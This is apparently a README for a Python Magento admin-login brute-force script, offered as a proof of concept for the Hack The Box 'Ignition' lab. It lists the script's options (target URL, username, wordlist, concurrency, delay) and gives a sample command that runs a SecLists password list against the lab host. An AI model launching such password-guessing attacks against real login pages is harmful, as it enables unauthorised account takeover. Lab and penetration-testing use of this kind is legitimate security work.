 # Yet another Magento Login Bruteforcer

Just for convenience and as a PoC.


## Tested with

This script is tested against:
- **Magento ver. dev-2.4-develop**
- python **3.11.4**


## How it works

```
python magentoBf.py -h

usage: magentoBf.py [-h] [-u U] [-w W] [-m M] [-t T] url

Yet another Magento login Bruteforce script.

positional arguments:
  url         The url where the Magento login is located

options:
  -h, --help  show this help message and exit
  -u U        The username to bruteforce the password. Defaults to admin
  -w W        The password wordlist fullpath to use
  -m M        Number. Max concurrent calls to try to schedulle. Defaults to 100.
  -t T        Number. Time to wait between max concurrent blocks. Defaults to 1 secs.

```

## Demo

Created for and used with **Ignition** box in **HTB**.

```
python magentoBf.py http://ignition.htb/admin -u admin -w /opt/SecLists/Passwords/xato-net-10-million-passwords-10000.txt
```

![Demo bruteforce ignition](images/magento_bf_demo.gif)
